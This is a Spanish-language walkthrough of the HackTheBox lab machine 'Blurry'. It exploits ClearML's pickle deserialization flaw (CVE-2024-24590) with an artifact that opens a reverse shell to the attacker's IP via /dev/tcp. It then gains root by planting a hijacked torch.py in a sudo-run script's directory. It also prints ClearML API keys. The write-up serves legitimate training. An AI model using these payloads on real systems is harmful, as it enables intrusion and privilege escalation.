






# Tutorial de Blurry de HackTheBox en Español



Empezamos la máquina con un escaneo en nmap de todos los puertos por TCP.

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.136.227


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-14 16:14 CEST
Nmap scan report for 10.129.136.227
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Nos reporta que los puertos abiertos son el 22 (ssh) y el 80 (http), vamos a comprobar si son esos los servivios corriendo en esos puertos y a detectar las tecnologías que se están empleando por detrás.

```
nmap -p 22,80 -sVC 10.129.136.227


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-14 16:19 CEST
Nmap scan report for 10.129.136.227
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

Efectivamente, están un servivio ssh y uno http respectivamente.

Vamos a analizar un poco más a fondo el servicio HTTP con el script `whatweb`.

```
whatweb 10.129.136.227


http://10.129.136.227 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.136.227], RedirectLocation[http://app.blurry.htb/], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: http://app.blurry.htb/ - no address for app.blurry.htb
```

Parece que la página está intentando redirigirnos a `app.blurry.htb`. Como este dominio es interno de HackTheBox, los servidores dns que tenemos por defecto en nuestra máquina no lo contemplan. Para que nuestra máquina asocie este dominio a la ip víctima, debemos añadir la línea `10.129.136.227  app.blurry.htb` al archivo `/etc/hosts`.

```
echo "10.129.136.227  app.blurry.htb" >> /etc/hosts
```

Una vez hecho, podemos volver a ejecutar el script.

```
whatweb 10.129.136.227


http://10.129.136.227 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.136.227], RedirectLocation[http://app.blurry.htb/], Title[301 Moved Permanently], nginx[1.18.0]
http://app.blurry.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.129.136.227], Script[module], Title[ClearML], nginx[1.18.0]
```

No parece reportarnos nada interesante así que una vez hecho un reconocimiento básico, vamos a entrar a la página desde el navegador.

Lo que nos encontramos al entrar es algo parecido a un panel de login sin contraseña.


Al entrar salta una página "getting started" que nos explica como configurar `clearml` en nuestra máquina.



En la configuración, observamos las URLs `api.blurry.htb` y `files.blurry.htb`, así que las añadiremos también al `/etc/hosts` por si acaso.

```
echo "10.129.136.227  api.blurry.htb" >> /etc/hosts 
echo "10.129.136.227  files.blurry.htb" >> /etc/hosts
```

Vamos tambien a crearnos un entorno virtual en python y a seguir las instrucciones que nos da la página.

```
python3 -m venv clearml
cd clearml
source bin/activate
pip install clearml
```

```
clearml-init


ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "NYGUR752G4UYDCSRBQBJ"
    "secret_key" = "Lfgv828psGNnw670m2vYaFMefruIw0sRtt4psrL4pmVPGp2l40"
  }
}
```

Una vez configurado, podemos cerrar este mensaje e investigar el sitio.

La página parece utilizar `ClearML`, una plataforma de gestión de proyectos de **machine learning**.

Estamos en la página dashboard, donde podemos ver varios proyectos, la mayoría son ejemplos, preo hay uno que no lo és: `Black Swan`.



Vamos a entrar en el proyecto `Black Swan`. En `experiments` podemos ver uno que ha sido actualizado recientemente: `Review JSON Artifacts`.



El código de experimento es el siguiente:

```python
#!/usr/bin/python3

from clearml import Task
from multiprocessing import Process
from clearml.backend_api.session.client import APIClient

def process_json_artifact(data, artifact_name):
    """
    Process a JSON artifact represented as a Python dictionary.
    Print all key-value pairs contained in the dictionary.
    """
    print(f"[+] Artifact '{artifact_name}' Contents:")
    for key, value in data.items():
        print(f" - {key}: {value}")

def process_task(task):
    artifacts = task.artifacts
    
    for artifact_name, artifact_object in artifacts.items():
        data = artifact_object.get()
        
        if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")

def main():
    review_task = Task.init(project_name="Black Swan", 
                            task_name="Review JSON Artifacts", 
                            task_type=Task.TaskTypes.data_processing)

    # Retrieve tasks tagged for review
    tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)

    if not tasks:
        print("[!] No tasks up for review.")
        return
    
    threads = []
    for task in tasks:
        print(f"[+] Reviewing artifacts from task: {task.name} (ID: {task.id})")
        p = Process(target=process_task, args=(task,))
        p.start()
        threads.append(p)
        task.set_archived(True)

    for thread in threads:
        thread.join(60)
        if thread.is_alive():
            thread.terminate()

    # Mark the ClearML task as completed
    review_task.close()

def cleanup():
    client = APIClient()
    tasks = client.tasks.get_all(
        system_tags=["archived"],
        only_fields=["id"],
        order_by=["-last_update"],
        page_size=100,
        page=0,
    )

    # delete and cleanup tasks
    for task in tasks:
        # noinspection PyBroadException
        try:
            deleted_task = Task.get_task(task_id=task.id)
            deleted_task.delete(
                delete_artifacts_and_models=True,
                skip_models_used_by_other_tasks=True,
                raise_on_error=False
            )
        except Exception as ex:
            continue

if __name__ == "__main__":
    main()
    cleanup()
```

Si nos vamos a la sección info de este experimento, podemos ver que la versión de ClearML es la `1.13.1`.



```
CLEARML VERSION   clearml-1.13.1
```

También podemos comprobar esto haciendo click en nuestro perfil arriba a la derecha y entrando a la configuración.



Abajo a la derecha veremos el siguiente texto.

```
WebApp: 1.13.1-426 • Server: 1.13.1-426 • API: 2.27
```

Buscando en internet vilnerabilidades de esta versión de `ClearML` nos encontramos con este [CVE-2024-24590](https://www.cve.org/CVERecord?id=CVE-2024-24590).

---

**¿En qué consiste esta vulnerabilidad?**

*Esta vilnerabilidad se aprovecha de que ClearML utliliza la utilidad de python `Pickle`, que sirve para serializar objetos de python.*

*Los artefactos que se comparten a traves de ClearML deben ser serializados con `Pickle`. Por lo que cuando se utiliza el metodo get para cargar un artefacto que te ha sido compartido, este se deserializa y se carga en memoria permitiendo al autor del artefacto ejecutar código en la máquina del que lo haya cargado.*

*Puedes encontrar más información sobre esta vulnerabilidad [aquí](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/#CVE-2024-24590).*

* Serializar: Convertir un objeto en un formato que se pueda almacenar o transmitir.

---

Podemos observar que en el experimento se realiza un `get()` a todas las tareas etiquetadas como `review`, por lo que debemos crear una tarea que explote esta vulnerabilidad, etiquetarla como `review` y subirla al servidor.

Primero necesitaremos crear la tarea con `Task.init()` y después subirla utilizando `upload_artefact()`. Se puede encontrar la forma de utilizar estos métodos en la [documentación ofificl de ClearML](https://clear.ml/docs/latest/docs/references/sdk/task/).

En la clase a enviar reescribiremos la función reservada `__reduce__()` para que nos entable una reverse shell, esta función sirve para definir como el objeto debe ser serializado y deserializado por pickle. Entonces será ejecutado cuando `ClearML` lo deserialice.

* Este script debe crearse en el entorno virtual creado anteriormente con la configuracion de ClearML.

```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/10.10.14.95/1234 0>&1"',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='Just an artefact', tags=['review'], output_uri=True)

task.upload_artifact(name='revshell', artifact_object=command, wait_on_upload=True, extension_name='.pkl', auto_pickle=True)
```

Escuchamos con `netcat` para recibir la reverse shell y, en paralelo, ejecutamos el script.

```
nc -lnvp 1234
```

```
python exploit.py
```

Esperamos unos minutos a que el experimento `Review JSON Artifacts` vuelva a ejecutarse y llamar con `get()` a nuestro artefacto malicioso. Y nos llega una reverse shell del usuario `jippity`.

```
jippity@blurry:~$ 
```

Vamos a hacer el tratamiento de la TTY para trabajar de una manera más cómoda. Ejecutamos:

```
script /dev/null -c bash
```

Presionamos `Ctrl`+`z`.

Y ejecutamos los siguientes comandos en orden.

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=`which bash`
```

Como jippity, ahora podemos acceder a la flag de `user.txt`.

```
cd
cat user.txt
```

Vamos a intentar ver los comandos que podemos ejecutar como `root` sin proporcionar contraseña mediante `sudo`.

```
sudo -l


Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

Leyendo el script `/usr/bin/evaluate_model`, nos damos cuenta que no hace más que ejecutar el script en python `/models/evaluate_model.py` con el primer argumento el mismo que el del script. Ej:

```bash
/usr/bin/evaluate_model /models/test.pth
# Esto es lo mismo que:
/usr/bin/python3 /models/evaluate_model.py /models/test.pth
```

```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/opt/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
fi
```

Vamos a meternos en `/models` y a listar el contenido.

```
cd /models
ls -l


-rw-r--r-- 1 root root 1077880 May 30 04:39 demo_model.pth
-rw-r--r-- 1 root root    2547 May 30 04:38 evaluate_model.py
```

Tenemos el script `evaluate_model.py`, llamado por `/usr/bin/evaluate_model`. Vamos a inspeccionarlo en busca de alguna vilnerabilidad.

```python
import torch
import torch.nn as nn
from torchvision import transforms
from torchvision.datasets import CIFAR10
from torch.utils.data import DataLoader, Subset
import numpy as np
import sys


class CustomCNN(nn.Module):
    def __init__(self):
        super(CustomCNN, self).__init__()
        self.conv1 = nn.Conv2d(in_channels=3, out_channels=16, kernel_size=3, padding=1)
        self.conv2 = nn.Conv2d(in_channels=16, out_channels=32, kernel_size=3, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0)
        self.fc1 = nn.Linear(in_features=32 * 8 * 8, out_features=128)
        self.fc2 = nn.Linear(in_features=128, out_features=10)
        self.relu = nn.ReLU()

    def forward(self, x):
        x = self.pool(self.relu(self.conv1(x)))
        x = self.pool(self.relu(self.conv2(x)))
        x = x.view(-1, 32 * 8 * 8)
        x = self.relu(self.fc1(x))
        x = self.fc2(x)
        return x


def load_model(model_path):
    model = CustomCNN()
    
    state_dict = torch.load(model_path)
    model.load_state_dict(state_dict)
    
    model.eval()  
    return model

def prepare_dataloader(batch_size=32):
    transform = transforms.Compose([
	transforms.RandomHorizontalFlip(),
	transforms.RandomCrop(32, padding=4),
        transforms.ToTensor(),
        transforms.Normalize(mean=[0.4914, 0.4822, 0.4465], std=[0.2023, 0.1994, 0.2010]),
    ])
    
    dataset = CIFAR10(root='/root/datasets/', train=False, download=False, transform=transform)
    subset = Subset(dataset, indices=np.random.choice(len(dataset), 64, replace=False))
    dataloader = DataLoader(subset, batch_size=batch_size, shuffle=False)
    return dataloader

def evaluate_model(model, dataloader):
    correct = 0
    total = 0
    with torch.no_grad():  
        for images, labels in dataloader:
            outputs = model(images)
            _, predicted = torch.max(outputs.data, 1)
            total += labels.size(0)
            correct += (predicted == labels).sum().item()
    
    accuracy = 100 * correct / total
    print(f'[+] Accuracy of the model on the test dataset: {accuracy:.2f}%')

def main(model_path):
    model = load_model(model_path)
    print("[+] Loaded Model.")
    dataloader = prepare_dataloader()
    print("[+] Dataloader ready. Evaluating model...")
    evaluate_model(model, dataloader)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_model.pth>")
    else:
        model_path = sys.argv[1]  # Path to the .pth file
        main(model_path)
```

Vemos que se están importando varios módulos externos, si pudieramos escribir en alguna carpeta de módulos con más prioridad, se podría acontecer la vulnerabilidad de **secuestro de librerías**.

---

**¿Cómo se acontece esta vulnerabilidad?**

*Al importar python un módulo, este busca en una serie de carpetas en un orden determinado el archivo de código del módulo*

*Si podemos ejecutar un script como `root` y este importa librerías externas (como `pytorch` o `numpy` en este caso), podemos crear módulos que ejecuten código arbitrario en carpetas con mayor prioridad. Este código se ejecutará al importarse.*

*Evidentemente, esto solo se podrá hacer si tenemos permisos en estas carpetas.*

* Si quiéres aprender más sobre esta vulnerabilidad, [este artículo](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) lo explica con más detalle.

---

Normalmente la carpeta de módulos con más prioridad es el propio directorio donde está el script, por lo que vamos a compobar si tenemos permisos de escritura.

```
ls -ld


drwxrwxr-x 3 root jippity 4096 Oct 15 12:52 .
```

Efectivamente, lo tenemos. Solo queda crear un archivo `nombreDelModulo.py` en el directorio `/models` y meter dentro el código que queremos que se ejecute. En este caso vamos a crear un `torch.py` o un `numpy.py`. El código a ejecutarse será el siguiente.

```python
import os
os.system('/bin/bash')
```

Nos da una shell interactiva como `root`, por lo que ya podemos leer la flag `root.txt`, terminando así la máquina **Blurry**.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

También debes recordar eliminar el archivo `~/clearml.conf` creado en el directorio `home` del usuario que ejecutó el `clearml-init` al configurar el cliente `ClearML`.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.